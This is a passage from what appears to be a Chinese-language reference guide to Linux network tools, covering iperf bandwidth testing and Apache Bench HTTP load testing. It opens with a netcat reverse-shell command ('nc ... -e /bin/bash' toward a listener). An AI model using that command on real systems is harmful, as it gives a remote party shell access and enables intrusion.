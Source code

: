 ```bash
$ nc -l 4444
# 目标机：
$ nc 192.168.1.100 4444 -e /bin/bash
```

---

## 6. 性能测试工具

### 6.1 iperf

**功能**：网络带宽测试

```bash
# 服务器端
$ iperf -s

# 客户端（TCP测试）
$ iperf -c 192.168.1.100

# UDP测试
$ iperf -c 192.168.1.100 -u -b 100M

# 双向测试
$ iperf -c 192.168.1.100 -d

# 设置测试时间
$ iperf -c 192.168.1.100 -t 60

# 并行连接
$ iperf -c 192.168.1.100 -P 4

# 反向测试
$ iperf -c 192.168.1.100 -R
```

### 6.2 ab (Apache Bench)

**功能**：HTTP压力测试

```bash
# 基本测试（100个请求，10并发）
$ ab -n 100 -c 10 http://localhost/

# POST请求
$ ab -n 100 -c 10 -p data.json -T application/json http://localhost/api/users

# 自定义头部
$ ab -n 100 -c 10 -H "Authorization: Bearer token" http://localhost/

# Keep-Alive
$ ab -n 1000 -c 100 -k http://localhost/

# 输出详细信息
$ ab -v 4 -n 100 -c 10 http://localhost/
```

---